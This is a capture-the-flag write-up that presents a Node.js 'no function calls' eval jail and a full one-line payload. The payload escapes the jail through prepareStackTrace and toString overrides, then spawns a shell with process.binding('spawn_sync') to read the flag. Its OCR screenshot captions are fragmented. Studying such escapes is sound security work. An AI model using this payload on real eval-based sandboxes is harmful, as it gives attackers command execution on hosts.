# Baby JS Blacklist
> I hate functions. I hate them so much, that I made it so that you can never call them!

> Note: Solving this challenge will unlock another challenge, "JS Blacklist".

## About the Challenge
We got a server to connect and also the source code. Here is the content of `chal.js`:

```javascript
import * as parser from "@babel/parser";
import _traverse from "@babel/traverse";
import _generate from "@babel/generator";
const traverse = _traverse.default;
const generate = _generate.default;
import readline from "readline";

class Jail {
  constructor() {
    this.rl = readline.createInterface({
      input: process.stdin,
      output: process.stdout,
    });
    this.loopInput();
  }

  async loopInput() {
    while (true) {
      const input = await this.promptForInput();
      this.processInput(input);
    }
  }

  promptForInput() {
    return new Promise((resolve) => {
      this.rl.question("Enter JavaScript code (one line): ", resolve);
    });
  }

  processInput(input) {
    try {
      const ast = this.parseCodeToAST(input);
      const isSafe = this.checkSafe(ast);

      if (!isSafe) {
        throw new Error("Unsafe code detected!");
      }
      const output = this.generateCodeFromAST(ast, input);
      this.evaluateCode(output);
    } catch (error) {
      console.log("Error:", error.message);
    }
  }

  parseCodeToAST(code) {
    return parser.parse(code, {
      sourceType: "module",
      plugins: [],
    });
  }

  checkSafe(ast) {
    return this.noCallExpressions(ast);
  }

  noCallExpressions(ast) {
    let hasCallExpression = false;

    traverse(ast, {
      CallExpression(path) {
        hasCallExpression = true;
        path.stop();
      },
    });

    return !hasCallExpression;
  }

  generateCodeFromAST(ast, originalCode) {
    return generate(ast, {}, originalCode);
  }

  evaluateCode({ code }) {
    try {
      console.log(eval(code));
    } catch (error) {
      console.log("Error evaluating code:", error.message);
    }
  }
}

new Jail();
```

This is a simple JavaScript program that creates a basic interactive environment. It continuously takes user input (JavaScript code) through the console, checks if the input is safe (doesn't contain function calls), converts the input into an Abstract Syntax Tree (AST), generates code from the AST, and then evaluates and prints the result. The goal is to prevent potentially unsafe code (with function calls) from being executed. The program uses the Babel library for parsing, traversing, and generating JavaScript code.


[Image extracted text: Enter JavaScript
code
(one line) :
1+1
Enter JavaScript
code
(one
line) :
console. log(1) ;
Error:
Unsafe
code
detected!
Enter JavaScript
code
(one line) :]


## How to Solve?
Im using a solver from TSGCTF 2023 - Functionless (You can check the solver [here](https://gist.github.com/arkark/a31f57c271e4aca4516c5a7072845aca)) but I modifed the code. Instead of calling `process.mainModule.require` function, I changed it by calling `process.binding`. Anyway here is the final payload I used to execute `cat` command to read flag file

```
globalThis.constructor.constructor.prototype.toString = globalThis.constructor.constructor.prototype.call; Error.stackTraceLimit = 0; globalThis.constructor.prototype.prepareStackTrace = globalThis.constructor.constructor; const err = new Error; err.name = "x = \x28\x28\x29 => { console.log\x28this.constructor.constructor\x28`let args = {\"args\":[\"sh\", \"-c\", \"cat flag\"],\"file\":\"sh\",\"stdio\":[{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true}]}; return process.binding\x28'spawn_sync'\x29.spawn\x28args\x29.output[1].toString\x28\x29`\x29\x28\x29\x29; }\x29\x28\x29"; err
```


[Image extracted text: Enter JavaScript
code
(one line) : globalThis
constructor
constructor.prototype
toStrir
pareStackTrace
globalThis
constructor
constructor;
const
err
new Error;
err
name
ag| " ], | "file| " : | "sh| "
I"stdio| " : [ {| "type| " : | "pipe|
'readable |
true
I "writable | "
trl
return
process
binding |x28 ' spawn_sync
Ix29 . spawn |
x28args |x29.output[1].toString|x28lxz
uoftctf{baby_jlvlscrlp7_gr3w_up_4nd_b3c4m3_4_hlck3r}
[undefined ]
name :
(()
=>
console.log(this
constructor
constructor(
let
args
{"args" : [ ":
rue
writable" :true} , {"type"
pipe
readable"
true ,
writable"
true} ]};
return
process]


## Flag

```
uoftctf{b4by_j4v4scr1p7_gr3w_up_4nd_b3c4m3_4_h4ck3r}
```